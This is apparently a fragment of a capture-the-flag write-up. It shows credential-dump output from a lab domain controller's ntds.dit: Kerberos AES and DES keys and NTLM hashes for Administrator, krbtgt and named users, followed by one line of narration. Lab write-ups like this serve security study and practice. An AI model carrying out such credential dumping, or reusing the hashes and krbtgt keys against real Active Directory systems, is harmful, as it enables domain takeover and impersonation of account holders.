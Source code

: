 ```shell
G.Goldberg:1112:aad3b435b51404eeaad3b435b51404ee:62e16d17c3015c47b4d513e65ca757a2:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:73410f03554a21fb0421376de7f01d5fe401b8735d4aa9d480ac1c1cdd9dc0c8
Administrator:aes128-cts-hmac-sha1-96:b4fc11e40a842fff6825e93952630ba2
Administrator:des-cbc-md5:80861f1a80f1232f
RESOURCEDC$:aes256-cts-hmac-sha1-96:b97344a63d83f985698a420055aa8ab4194e3bef27b17a8f79c25d18a308b2a4
RESOURCEDC$:aes128-cts-hmac-sha1-96:27ea2c704e75c6d786cf7e8ca90e0a6a
RESOURCEDC$:des-cbc-md5:ab089e317a161cc1
krbtgt:aes256-cts-hmac-sha1-96:12b5d40410eb374b6b839ba6b59382cfbe2f66bd2e238c18d4fb409f4a8ac7c5
krbtgt:aes128-cts-hmac-sha1-96:3165b2a56efb5730cfd34f2df472631a
krbtgt:des-cbc-md5:f1b602194f3713f8
M.Mason:aes256-cts-hmac-sha1-96:21e5d6f67736d60430facb0d2d93c8f1ab02da0a4d4fe95cf51554422606cb04
M.Mason:aes128-cts-hmac-sha1-96:99d5ca7207ce4c406c811194890785b9
M.Mason:des-cbc-md5:268501b50e0bf47c
K.Keen:aes256-cts-hmac-sha1-96:9a6230a64b4fe7ca8cfd29f46d1e4e3484240859cfacd7f67310b40b8c43eb6f
K.Keen:aes128-cts-hmac-sha1-96:e767891c7f02fdf7c1d938b7835b0115
K.Keen:des-cbc-md5:572cce13b38ce6da
L.Livingstone:aes256-cts-hmac-sha1-96:cd8a547ac158c0116575b0b5e88c10aac57b1a2d42e2ae330669a89417db9e8f
L.Livingstone:aes128-cts-hmac-sha1-96:1dec73e935e57e4f431ac9010d7ce6f6
L.Livingstone:des-cbc-md5:bf01fb23d0e6d0ab
J.Johnson:aes256-cts-hmac-sha1-96:0452f421573ac15a0f23ade5ca0d6eada06ae85f0b7eb27fe54596e887c41bd6
J.Johnson:aes128-cts-hmac-sha1-96:c438ef912271dbbfc83ea65d6f5fb087
J.Johnson:des-cbc-md5:ea01d3d69d7c57f4
V.Ventz:aes256-cts-hmac-sha1-96:4951bb2bfbb0ffad425d4de2353307aa680ae05d7b22c3574c221da2cfb6d28c
V.Ventz:aes128-cts-hmac-sha1-96:ea815fe7c1112385423668bb17d3f51d
V.Ventz:des-cbc-md5:4af77a3d1cf7c480
S.Swanson:aes256-cts-hmac-sha1-96:8a5d49e4bfdb26b6fb1186ccc80950d01d51e11d3c2cda1635a0d3321efb0085
S.Swanson:aes128-cts-hmac-sha1-96:6c5699aaa888eb4ec2bf1f4b1d25ec4a
S.Swanson:des-cbc-md5:5d37583eae1f2f34
P.Parker:aes256-cts-hmac-sha1-96:e548797e7c4249ff38f5498771f6914ae54cf54ec8c69366d353ca8aaddd97cb
P.Parker:aes128-cts-hmac-sha1-96:e71c552013df33c9e42deb6e375f6230
P.Parker:des-cbc-md5:083b37079dcd764f
R.Robinson:aes256-cts-hmac-sha1-96:90ad0b9283a3661176121b6bf2424f7e2894079edcc13121fa0292ec5d3ddb5b
R.Robinson:aes128-cts-hmac-sha1-96:2210ad6b5ae14ce898cebd7f004d0bef
R.Robinson:des-cbc-md5:7051d568dfd0852f
D.Durant:aes256-cts-hmac-sha1-96:a105c3d5cc97fdc0551ea49fdadc281b733b3033300f4b518f965d9e9857f27a
D.Durant:aes128-cts-hmac-sha1-96:8a2b701764d6fdab7ca599cb455baea3
D.Durant:des-cbc-md5:376119bfcea815f8
G.Goldberg:aes256-cts-hmac-sha1-96:0d6ac3733668c6c0a2b32a3d10561b2fe790dab2c9085a12cf74c7be5aad9a91
G.Goldberg:aes128-cts-hmac-sha1-96:00f4d3e907818ce4ebe3e790d3e59bf7
G.Goldberg:des-cbc-md5:3e20fd1a25687673
[*] Cleaning up... 
```
dumping using the ntds file, we got some hashes. 

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                         
RESOURCEDC$:1000:aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b:::
M.Mason:1103:aad3b435b51404eeaad3b435b51404ee:3105e0f6af52aba8e11d19f27e487e45:::                                                                                      
K.Keen:1104:aad3b435b51404eeaad3b435b51404ee:204410cc5a7147cd52a04ddae6754b0c:::
L.Livingstone:1105:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808:::
J.Johnson:1106:aad3b435b51404eeaad3b435b51404ee:3e028552b946cc4f282b72879f63b726:::              
V.Ventz:1107:aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c:::
S.Swanson:1108:aad3b435b51404eeaad3b435b51404ee:bd7c11a9021d2708eda561984f3c8939::: 
P.Parker:1109:aad3b435b51404eeaad3b435b51404ee:980910b8fc2e4fe9d482123301dd19fe:::                                                                                     
R.Robinson:1110:aad3b435b51404eeaad3b435b51404ee:fea5a148c14cf51590456b2102b29fac:::
```